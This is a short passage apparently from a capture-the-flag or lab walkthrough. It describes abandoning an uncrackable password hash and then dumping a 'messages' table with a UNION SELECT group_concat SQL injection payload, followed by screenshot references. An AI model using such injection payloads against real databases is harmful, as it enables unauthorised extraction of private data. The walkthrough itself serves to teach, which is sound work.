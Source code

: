 --> We have the password hashed but we are not able to de hash it so we will move to another table to find information.

+ We've moved to table_name "messages": 

```bash
5 UNION SELECT group_concat(id, ':' , is_read, ':' , message_content, ':' , user_from, ':' , user_to '<br>'),2,3,4 FROM messages
```
![alt text](image-13.png)

